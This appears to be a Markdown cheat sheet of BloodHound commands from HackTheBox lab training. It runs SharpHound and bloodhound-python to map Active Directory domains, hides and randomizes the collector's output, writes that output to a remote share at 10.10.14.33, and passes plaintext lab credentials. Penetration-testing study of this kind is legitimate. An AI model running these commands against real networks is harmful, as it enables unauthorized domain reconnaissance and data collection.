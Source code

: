 



# BloodHound

| Command                                                                                                                            | Description                                      |
| ---------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------ |
| `.\SharpHound.exe -c all --zipfilename inlanefreight_bloodhound`                                                                   | Run the SharpHound C# ingestor                   |
| `.\SharpHound.exe --memcache --outputdirectory \\10.10.14.33\share\ --zippassword HackTheBox --outputprefix HTB --randomfilenames` | Randomize and hide SharpHound Output             |
| `Invoke-BloodHound -CollectionMethod all -ZipFileName ilfreight_bloodhound`                                                        | Run the SharpHound PowerShell ingestor           |
| `bloodhound-python -dc <DC> -gc <GC> -d <DOMAIN -c All -u <user>`                                                                  | Run bloodhound-python                            |
| `bloodhound-python -u P.Rosa -p 'Rosaisbest123' -d vintage.htb -c All -dc dc01.vintage.htb`                                        |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 -k`                               |                                                  |
| `bloodhound-python -d inlanefreight.htb -c DCOnly -u htb-student -p HTBRocks! -ns 10.129.204.207 --kerberos`                       | Using BloodHound.py with Kerberos authentication |
| `runas /netonly /user:<DOMAIN>\<username> <app>`<br>``                                                                             | Running from Non-Domain-Joined Systems           |
